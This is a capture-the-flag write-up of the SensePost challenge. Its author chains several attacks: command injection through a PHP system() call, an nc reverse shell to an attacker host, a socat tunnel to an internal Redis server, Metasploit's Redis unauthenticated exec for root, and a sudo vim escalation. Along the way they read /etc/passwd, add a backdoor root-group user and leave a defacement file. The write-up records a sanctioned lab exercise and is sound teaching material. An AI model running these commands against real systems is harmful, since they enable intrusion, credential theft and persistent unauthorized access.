

# SensePost CTF Writeup

SensePost offered up a CTF challenge:


https://challenge.sensepost.ninja/

Let's get pwning.

--------

## Flag One

The CTF starting page, with not much to see:




https://challenge.sensepost.ninja/1.html

Nothing of interest in the page source, let's brute force the number paramter:

```
for i in {1..1000}
do
    r=`curl -s -I https://challenge.sensepost.ninja/$i.html | grep HTTP`
    if echo $r | grep -q 200; then
        echo found: $i.html
    fi
done
```


Output:
```
found: 1.html
found: 2.html
found: 256.html
```

Nothing of interest in 2.html, but 256.html has the clue in the HTML:

`<!-- clue might be abit hidden but the clue is "quattuor" -->`

Well "quattuor" is "four" in Latin, so first guess is to increment that to "five" and we get the page:

https://challenge.sensepost.ninja/quinque.html

This redirects to quinque.php, a page with an image, top_secret.jpg, and and input field asking for the first flag:


In the source we notice:

`<!-- /secrets.txt -->`

Checking https://challenge.sensepost.ninja/secrets.txt we get:

```
nobody will guess where this password works. 
BbR4fZ6g
```

Obviously some stegongraphy going on here, so we run:

`steghide --extract -p BbR4fZ6g -sf top_secret.jpeg`

This command extracts `flag.txt` with the contents:

`SP-d817d9ab83f0eca956c8921492bb1add`

Submitting this value into the quinque.php page gets us:


https://challenge.sensepost.ninja/firstflag.php?file=completedHHF

"Keep Calm 1 Down Only 3 To Go"

------------------------------------------

## Flag Two

Well that's a pretty suspicious looking URL:

https://challenge.sensepost.ninja/firstflag.php?file=completedHHF 

First thought was the HHF was a three digit UID, so I brute'd all 17k 3 letter combos, before realising HHF is SensePost talk for "Hands on Hacking" (sorry about the bandwidth SP). Fiddling with the file paramter I noticed that: 

`GET /firstflag.php?file=*;`

returns source code for all the pages we've seen so far, and some more. This included the PHP sourcecode that renders the pages:

```
<?php
$file=$_GET['file'] . ".html";
system("cat $file");
?>
```

So we can get some simple command execution by:

```
GET /firstflag.php?file=;whoami;
www-data
```

```
GET /firstflag.php?file=;ls;
1.html
2.html
256.html
ThReE.html <-- I thought this was the third flag, but it just has 27 in it.
completedHHF.html
css
firstflag.php
images
index.html
js
logout.php
quinque.html
quinque.php
secrets.txt
```

```
GET /firstflag.php?file=;whereis%20nc;
nc: /bin/nc /bin/nc.traditional
```

Let's grab a netcat shell then:

`GET /firstflag.php?file=;nc%20hacker.box%209999%20-e%20/bin/bash%20>&1;`

```
glenn@hacker.box:~# nc -v -l 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [34.254.152.68] port 9999 [tcp/*] accepted (family 2, sport 59276)
pwd
/var/www/html
ls ../
total 12K
-rw-r--r-- 1 root     root       98 Apr 26 22:01 flag2.txt
drwxrwxrwx 1 www-data www-data 4.0K Apr 29 15:36 html
cat ../flag2.txt

Whoops. We should probably store all these keys in a redis db
SP-4aa672bd2e735cc7a314019f4d11bcae
```

---------------------
## Flag Three

Where to start? The clue from the previous flag was something about redis. Checking out /etc/passwd, notice the most recent user in there is redis:

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
redis:x:101:101::/var/lib/redis:/usr/sbin/nologin
```

Let's poke around the network

```
ifconfig
        inet 192.168.0.2  netmask 255.255.240.0  broadcast 192.168.127.255
        ether 02:42:c0:a8:70:02  txqueuelen 0  (Ethernet)
        RX packets 3025954  bytes 682048914 (650.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2047326  bytes 535614626 (510.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

nmap -sP 192.168.0.*
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-29 17:54 UTC
Nmap scan report for ip-192-168-0-1.eu-west-1.compute.internal (192.168.0.1)
Host is up (0.00056s latency).
Nmap scan report for ebe6a4fbcfa8 (192.168.0.2)
Host is up (0.00030s latency).
Nmap scan report for redis-server.internal (192.168.0.3)
Host is up (0.00023s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.71 seconds
```

OK, let's poke .3 the redis server:

```
nmap -sV 192.168.0.3 -p1-65535
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-29 20:55 UTC
Nmap scan report for redis-server.internal (192.168.0.3)
Host is up (0.00020s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.47 seconds
```

Hello, Redis.

```
redis-cli -h 192.168.0.3 -p 6379 ping
PONG
```

OK let's tunnel to redis through some plumbing * *cue Mario music* *

```
cd /var/www/html
curl -o /tmp/socat https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
```

```
socat -v TCP-LISTEN:6667,fork TCP-LISTEN:7778,fork # My server 
./socat -v TCP-CONNECT:hacker.box:6667,fork TCP-CONNECT:192.168.0.3:6379 2>&1 &# Popped box
```
```
redis-cli -h hacker.box -p 7778 ping #run from my laptop
PONG
```

Nice. Now we can interact.

```
redis-cli -h hacker.box -p 7778

hacker.box:7778> KEYS *
1) "flag3"
2) "notes"

hacker.box:7778> GET flag3
"SP-d5d8f27b7d7ddb7c925ad6b74a40b7e5"

hacker.box:7778> GET notes
"Whoops-This-Server-Was-A-Mistake!-Thats-all-there-is-here-the-last-flag-is-behind-you"
```

------------------------------------------------------

## Flag Four:

Well, let's pop Redis server through our Mario socat plumbing tunnel as a starting point:

```
msf5 > use exploit/linux/redis/redis_unauth_exec
msf5 exploit(linux/redis/redis_unauth_exec) > set SRVHOST hacker.box
msf5 exploit(linux/redis/redis_unauth_exec) > set LHOST hacker.box
msf5 exploit(linux/redis/redis_unauth_exec) > set RPORT 7778
msf5 exploit(linux/redis/redis_unauth_exec) > set RHOSTS hacker.box
msf5 exploit(linux/redis/redis_unauth_exec) > check
[+] hacker.box:7778 - The target is vulnerable.
msf5 exploit(linux/redis/redis_unauth_exec) > exploit

[*] Started reverse TCP handler on hacker.box:4444
[*] hacker.box:7778   - Compile redis module extension file
[+] hacker.box:7778   - Payload generated successfully!
[*] hacker.box:7778   - Listening on hacker.box:6379
[*] hacker.box:7778   - Rogue server close...
[*] hacker.box:7778   - Sending command to trigger payload.
[*] Sending stage (3012516 bytes) to 34.254.152.68
[*] Meterpreter session 1 opened (hacker.box:4444 -> 34.254.152.68:41428) at 2020-04-29 22:34:53 +0000
[!] hacker.box:7778   - This exploit may require manual cleanup of './aykosiug.so' on the target

meterpreter > shell
Process 22 created.
Channel 1 created.

id
uid=0(root) gid=0(root) groups=0(root)

echo "hello friends. charge your lazerz" > /glennzw_waz_here.txt
useradd -m -g root glennzw 
echo -e "domhackslikeaclown\ndomhackslikeaclown" | passwd glennzw

cat /etc/passwd | grep glenn
glennzw:x:1000:0::/home/glennzw:/bin/sh
```

Also found the flag here:
```
cat /tmp/data.redis
SET flag3 SP-d5d8f27b7d7ddb7c925ad6b74a40b7e5
SET notes Whoops-This-Server-Was-A-Mistake!-Thats-all-there-is-here-the-last-flag-is-behind-you 
```

Hm, now where is that flag? Guess we should follow the clue and go back to the webserver.


Back on the webserver box, let's check if we have sudo access:

`sudo -v`

No error, so we do.

And what can we sudo?

```
sudo -l

www-data ALL = (root) NOPASSWD: /usr/bin/vim
```

Well, how convenient.

First we'll upgrade our shell to an interactive one.

```python -c 'import pty; pty.spawn("/bin/bash");'```

Then we can use vim to grab a root shell.

```
sudo vim -c :!sh

whoami
root

cat /root/flag4.txt

SP-825b4db3b321b46add5e88c4c007cd73
```

Guess that's the end. Thanks SensePost.

----------------------------------------

## Footnote:

Here's the script I wrote to brute the HHF parameter on the URL `https://challenge.sensepost.ninja/firstflag.php?file=completedHHF` when I thought it was a little UID. 

```
import requests
import string
import itertools

alphabets = list(string.ascii_uppercase)
combos = [''.join(i) for i in itertools.product(alphabets, repeat = 3)]

i=1
for c in ['HHF'] + combos:
    if i % 10 == 0:
        print str(i) + " / " + str(len(combos) )
    URL = "https://challenge.sensepost.ninja/firstflag.php?file=completed" + c
    r = requests.get(url = URL)
    if r.status_code != 200 or len(r.text) > 0:
        print "Check out " + c
    i+=1
```

